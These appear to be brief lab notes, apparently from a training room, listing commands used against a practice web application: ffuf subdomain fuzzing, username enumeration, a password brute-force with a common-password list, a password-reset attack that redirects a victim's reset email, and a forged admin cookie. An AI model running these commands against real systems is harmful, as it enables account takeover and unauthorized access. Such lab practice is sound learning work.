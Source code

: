 ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.208.213 -fs {size}

```shell-session
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.208.213
```

same usernames check
```shell-session
ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.5.155/customers/signup -mr "username already exists"
```

using valid_usernames.txt to brute force
```shell-session
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.5.155/customers/login -fc 200
```

curl 'http://10.10.5.155/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=azim@customer.acmeitsupport.thm'

```shell-session
curl -H "Cookie: logged_in=true; admin=true" http://10.10.5.155/cookie-test
```